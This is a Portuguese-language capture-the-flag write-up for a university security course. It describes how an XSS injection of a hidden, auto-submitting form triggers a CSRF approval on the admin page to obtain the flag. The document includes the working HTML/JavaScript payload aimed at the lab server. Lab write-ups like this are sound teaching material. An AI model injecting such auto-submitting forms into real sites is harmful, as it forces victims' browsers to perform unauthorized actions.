


### CTF Semana 6 (XSS+CSRF)

Ao abrir a página, deparamonos com o seguinte form no qual podemos selecionar a opção "Give the flag" de modo a fazer um pedido ao admin para obter a flag.




Fazendo um pedido inicial, conseguimos obter acesso á pagina do admin.



Ao analisar o código fonte da página, verificamos que a porta da página muda de 5004 para 5005 e o form do request apresenta a seguinte estrutura:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled>
        
    </div>
</form>
```
O valor **request_id** é o valor dado na página inicial. Tendo em conta a informação que obtemos, podemos construir um novo form para aceitar os pedidos:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Tendo este novo form criado, basta só na página inicial injetar este código no form, sendo redirecionado para a página de espera de aceitação do pedido. Podemos verificar que inicialmente ainda não conseguimos obter o valor da flag devido á existência de um script na página, fazer com que esta continue a fazer refresh de 5 em 5 segundos. Desativando o javascript e fazendo reload manual obtemos a flag.
